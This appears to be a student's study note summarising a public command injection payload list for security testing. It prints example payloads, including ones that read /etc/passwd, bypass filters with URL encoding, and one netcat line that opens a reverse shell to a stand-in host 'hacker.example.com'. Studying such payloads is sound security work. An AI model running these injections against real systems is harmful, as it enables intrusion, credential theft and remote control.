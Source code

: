 ```yaml
---
created:
  - 08-19-2024 15:34
backlinks:
  - "[[002 - Areas/2.0 WGU 📝/D484/Tools]]"
---
```

# ❗ Information
**Related to:** Command Injection  
**Tags:** [[Cybersecurity]], [[Injection]], [[Payloads]]

# 💻 Application -> command-injection-payload-list

## 🧾 Description
This repository provides an extensive list of command injection payloads that can be used for security testing and research purposes. Command injection is a type of vulnerability where an attacker can execute arbitrary commands on the host operating system via a vulnerable application.

## 🌐 Link
- [Command Injection Payload List](https://github.com/payloadbox/command-injection-payload-list)

## 🤸 Examples
Here are some examples of command injection payloads:

1. **Basic Payloads:**
   ```bash
   ; ls -la
   && cat /etc/passwd
   | whoami
   ```

2. **Using Special Characters:**
   ```bash
   `id`
   $(uname -a)
   || ps aux
   ```

3. **Chaining Commands:**
   ```bash
   ; echo "Injection Successful"
   && mkdir /tmp/hacked
   | nc -e /bin/sh hacker.example.com 8080
   ```

4. **Bypassing Filters:**
   ```bash
    %0a ls 
    %26 cat /etc/passwd 
    %7c whoami 
    %60 id 
    %24(uname -a)
    ```

5. **Advanced Payloads:**
   ```bash
    ; python3 -c 'import os; os.system("id")'
    && perl -e 'system("ls")'
    | ruby -e 'exec("whoami")'
    || echo 'hacked' > /tmp/hacked.txt 
    ```

These examples demonstrate various techniques to exploit command injection vulnerabilities by using different characters and methods to chain commands, bypass filters, and execute arbitrary commands on the target system. The provided link contains a comprehensive list of such payloads for deeper exploration and usage in security testing.

---

Remember to always use these payloads ethically and within the bounds of legal permissions when performing security tests.